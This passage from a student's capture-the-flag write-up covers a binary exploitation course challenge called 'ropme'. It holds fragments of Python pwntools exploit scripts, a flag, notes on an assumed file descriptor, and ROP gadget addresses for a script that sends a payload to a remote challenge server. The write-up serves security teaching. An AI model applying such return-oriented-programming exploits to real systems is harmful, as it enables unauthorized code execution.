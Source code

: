 ```
print("pay: "+pay)
print("pay len: "+str(len(pay)))
print("=================sending pay===============")

io.sendline(pay)
io.interactive()


print(io.recv())

"""
0x08048780 - dec ebp
0x0804834d - pop ebx

```

ropme
=============
Flag: COMP6447{no_u_come_up_with_another_flag}


General overview of problems faced
-------------------------------------
Had to hack the program:
1. Like in "3001_simpy", had to re-channel registers to read FD first, and print it thereafter
2. Encountered many of my mess-ups, but done it right in the end

Probably not in my interest to say, but while the script works, it takes as-is the hypothesis that FD of flag is 3 always, which might not be necessarily the case. The solutions to it are,
* Pop the stack until you find the value of FD in it, OR
* keep calling main(), creating more and more FDs, and after, say, 150 calls, pick FD = 80.

Either way, since it works perfectly as it is, I post the script as-is as well.

Script/Command used
------------------
```
#python2

from pwn import *

context.binary = './ropme'

io = remote("plzpwn.me", 6003)
#process('./ropme')
print(io.recvuntil('Gimme data: '))

vuln = p32(0x0804850A)
main = p32(0x08048539)

before_bye = p32(0x804858d)

pure_inc_ecx = p32(0x08048792)
pure_inc_edx = p32(0x08048505)
pure_inc_edx_alt = p32(0x080484fc)

pure_xor_edx = p32(0x080484ef)

pure_mov_ecx_to_eax = p32(0x080484f9)
pure_mov_edx_to_eax_and_ebx = p32(0x08048500)
pure_mov_esp_to_ebp = p32(0x080484ec)
pure_mov_edx_to_ebx = p32(0x08048502)

pure_x2_ecx = p32(0x080484ba)

```